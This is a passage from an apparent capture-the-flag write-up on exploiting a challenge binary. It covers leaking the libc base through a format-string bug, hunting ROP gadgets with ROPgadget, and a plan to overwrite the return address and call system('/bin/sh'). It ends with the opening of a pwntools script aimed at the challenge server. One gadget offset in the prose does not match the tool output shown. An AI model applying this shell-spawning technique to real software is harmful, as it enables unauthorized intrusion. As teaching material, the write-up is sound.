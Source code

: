 All I have to do, is subtract the base address of the `libc` I have (highlighted in the screenshot), from it, to get the constant offset difference, which comes out to be: `0x1ed723`. I can use this information to get the base address of the libc every time the program is run now, through the format string vulnerability in `main()`.

Return Oriented Programming comes in handy when buffer overflows allow us to overwrite a program's call stack with what we want. Instead of us having to craft our own shellcode, all we have to do is take already existing pieces of code (known as "gadgets") and put them together to craft our exploit - we will see how we can do that. 

These gadgets are usually short bursts of instructions tailored to do specific things, each ending with a `ret` instruction. We can utilise this to control execution flow as per our will. 

The beauty of ROP comes from it's unique ability to harness code from any part of the binary (given it is executable). 

First, we need to go gadget hunting to find what we need. Since we can write what we want to the stack, and we know `rdi` is the first place looked at by functions for their arguments, we would ideally want something that would allow us to pop the top value from the stack and into `rdi`, then perform a `ret`. Let us look for such an instruction in the libc with a tool known as [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). 

```
$ ROPgadget --binary ./libc.so.6 | grep "pop rdi ; ret"
0x0000000000023b6a : pop rdi ; ret
0x00000000000f57ad : pop rdi ; retf
0x0000000000144ba9 : pop rdi ; retf 0xa
```

We can take the first one and ignore the rest. The output shows that at the offset `0x24b6a` from the libc base, is the gadget we are looking for. 

Next, we also need to find a `ret` instruction. 

```
$ ROPgadget --binary ./libc.so.6 | awk '{print $1 $2 $3}' | grep ret
0x0000000000022679:ret
```

So `ret` is at 0x22679. 

Now, we are ready to craft our payload that does the following: 

1. Send 4 "A"s and the canary to get to the return address on the stack 
2. Overwrite the return address on the stack with the `pop rdi` gadget 
3. Set the value of `rdi` to "/bin/sh"
4. Overwrite the return address again with with the address of system 


Let us see how this can be accomplished with a full fledged pwntools script

```py
from pwn import *
from icecream import ic
import tty

# Set up pwntools for the correct architecture
exe = "./lost"
libc = ELF("./libc.so.6")
context.binary = elf = ELF(exe)
context.log_level = "debug"
context.aslr = True

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote("lost-canary.chal.uiuc.tf", 1337, ssl=True )
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)
```